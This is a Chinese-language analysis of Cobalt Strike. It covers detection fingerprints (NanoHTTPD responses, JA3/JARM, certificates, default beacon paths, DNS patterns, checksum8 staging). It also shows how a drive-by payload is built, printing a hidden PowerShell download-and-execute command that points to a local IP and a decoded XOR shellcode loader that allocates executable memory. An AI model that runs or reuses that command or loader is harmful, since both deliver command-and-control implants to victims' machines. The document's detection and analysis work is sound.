 # Cobalt Strike分析

**本小结所有内容对应cobalt strike 未魔改的版本**

**端口默认50050 **

**指纹识别：cs的补丁可以使特定的指纹识别变得困难Cobalt Strike服务器的”404 Not Found“ HTTP响应与NanoHTTPDweb服务器不同，并且能被探测到。**

#### nanohttpd方法：

**Cobalt Strike服务器基于NanoHTTPD，于2012年首次发布。NanoHTTPD是一个基于java的开源web服务器框架。NanoHTTPD服务器响应中包含一个额外的空字节："HTTP/1.1"后面是一个空字节（0x20），而在其他web服务器响应中不存在这个空字节。（cs<=3.13 ）**

#### ja3指纹方法：

[https://zhuanlan.zhihu.com/p/658722158](https://zhuanlan.zhihu.com/p/658722158)

> **TLS及其前身SSL用于加密通信，既用于普通应用程序，以保证数据安全，也用于恶意软件，因此它可以隐藏在噪音中。为了发起一个TLS会话，客户端将在TCP三次握手之后发送一个TLS客户端Hello报文。此包及其生成方式取决于构建客户机应用程序时使用的包和方法。如果服务器接受TLS连接，将使用基于服务器端库和配置以及客户端Hello中的详细信息制定的TLS服务器Hello数据包进行响应。由于TLS协商是以透明方式传输的，因此可以使用TLS client Hello包中的详细信息来识别和识别客户机应用程序。**

**对于由详细网络流量数据的用户，JA3是一种更可靠的发现Cobalt Strike服务器的方法。由三位Salesforce研究员开发的开源**[JA3](https://link.zhihu.com/?target=https%3A//github.com/salesforce/ja3)项目，可以通过对服务器和客户端之间的TLS协商进行指纹识别来检测可疑的HTTPS浏览

#### JARM指纹

**JARM**是一个主动TLS服务端指纹工具，JARM指纹与上层应用无强关联性，使用相同JDK的Tomcat和Cobalt Strike拥有相同的JARM指纹，这也解释了为什么会有那么多的Weblogic和Tomcat应用被识别出来了，因此不能直接通过JARM去判定CobaltStrike。同样，对于CobaltStrike而言JARM也并不唯一，其JARM与不同JDK环境下TLS服务有关。因此JARM仅仅是一种TLS服务端特征的标识方式，只能作为一个**辅助手段**，不能完全被用作Web上层应用的唯一指纹。

**证书指纹识别：如果使用者不修改证书的话**

![image-20240512163421892](./resources/images/7-1.png)

**becon是什么**

```
“Beacon”通常指的是一种用于监视、传输数据或发出信号的小型装置或系统。它们通常被用于远程监控、定位或通信。

在计算机网络领域，"Beacon"通常指的是网络中的一个特殊数据包或信号，用于识别设备、监测网络性能或传递特定信息。例如，在无线网络中，Access Point（接入点）可能会定期发送"Beacon"信号以广播网络名称（SSID）和其他配置信息，以便让其他设备发现并连接到该网络。

在安全领域，"Beacon"通常指的是一种用于远程控制或传输数据的小型软件模块，常见于恶意软件中。这些"Beacon"会定期向控制服务器发送信号以获取指令，或者将被收集的数据传输回攻击者。这种类型的"Beacon"常用于持久性攻击、间谍活动或网络入侵。
```

**Listener是用来接收Beacon请求信息的Cobalt Strike模块**，此处不多介绍。

**Beacon翻译为信标，就像信标一样在网络中标识自己的方位：“嘿，我是肉鸡，我在这...”。可以通过下图来看****Beacon的工作原理**：

![image-20240512162434412](./resources/images/7-2.png)

**在使用cobalt strike下达指令client 操作完之后，会出现post请求/sumbit.php？id=xxx的回传特征，该特征可以判断cobalt strike。**

**注：https-beacon 在 http-beacon 的基础上加入了 tls 层对流量加密，其他过程相似**

**① 基础特征：使用默认配置时存在的特征，可通过修改 profile 文件或证书将其隐藏；**

**② 强特征：需要修改 cobaltstrike 源码才能较好去除的这部分特征。**

### **基础特征**

#### (1)**http 请求**

**http-beacon通信中，默认使用get方法向 /dpixel、/__utm.gif、/pixel.gif 等地址发起请求，同时请求头存在 cookie 字段并且值为 base64 编码后的非对算算法加密数据**

#### (2)**https 证书**

**https-beacon 通信中，默认使用空证书建立加密通道，流量中可以看见这一过程。**

**dns-beacon 通信中，默认使用 “cdn.”、“www6.”、“api.”、“www.”、“post.” 为开头发起 dns 请求，并且查询结果伴随 0.0.0.0、0.0.0.80、0.0.0.241 等非常规 IP 。**

### **强特征**

#### (1)**chechsum8**

**运行 staging 模式的pe文件，会向指定服务器的checksum8 路径发起请求来下载 stage 。即使通过 profile 文件改变下载地址，但c2服务器依然会对checksum8 地址请求作出响应。**

#### (2)**ja3/ja3s**

**ja3 和 ja3s 分别代表 tls 握手阶段的 client-hello、server-hello 的数据集合计算出的哈希值（md5），相同版本相同系统下指纹相同，该特征与操作系统、cobaltstrike 版本有关，profile 文件无法对其修改。**

## 获取web-drive-by  shellcode

**生成shellcode**

![image-20240513222205609](./resources/images/7-3.png)

```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.31.113:80/a'))"
```

**看看url 下有什么**

![image-20240513222959835](./resources/images/7-4.png)

**吧base64的部分放到cyberchef 里面解密后ungzip 解压就得到shellcode**

![image-20240513223057065](./resources/images/7-5.png)

```
Set-StrictMode -Version 2

function func_get_proc_address {
Param ($var_module, $var_procedure)
$var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
$var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
Param (
[Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
[Parameter(Position = 1)] [Type] $var_return_type = [Void]
)

$var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
$var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
$var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')

return $var_type_builder.CreateType()
}

If ([IntPtr]::size -eq 8) {
[Byte[]]$var_code = [System.Convert]::FromBase64String('........')
for ($x = 0; $x -lt $var_code.Count; $x++) {
$var_code[$x] = $var_code[$x] -bxor 35
}

$var_va = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((func_get_proc_address kernel32.dll VirtualAlloc), (func_get_delegate_type @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])))
$var_buffer = $var_va.Invoke([IntPtr]::Zero, $var_code.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($var_code, 0, $var_buffer, $var_code.length)

$var_runme = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($var_buffer, (func_get_delegate_type @([IntPtr]) ([Void])))
$var_runme.Invoke([IntPtr]::Zero)
}

```

**是对真正的pe文件进行异或35解密**
